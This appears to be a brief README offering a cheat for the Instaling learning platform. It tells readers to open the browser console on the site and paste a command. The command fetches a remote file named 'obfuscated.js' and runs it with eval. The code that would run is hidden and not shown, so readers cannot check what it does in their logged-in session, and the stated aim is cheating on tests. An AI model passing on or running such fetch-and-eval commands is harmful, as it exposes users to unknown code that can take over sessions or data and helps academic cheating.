 It should work in Test and Classic mode.

1. Join Instaling
2. Open console and paste this

fetch("https://raw.githubusercontent.com/VoleNN420/instaling-cheat/main/obfuscated.js")
.then((res) => res.text()
.then((t) => eval(t)))
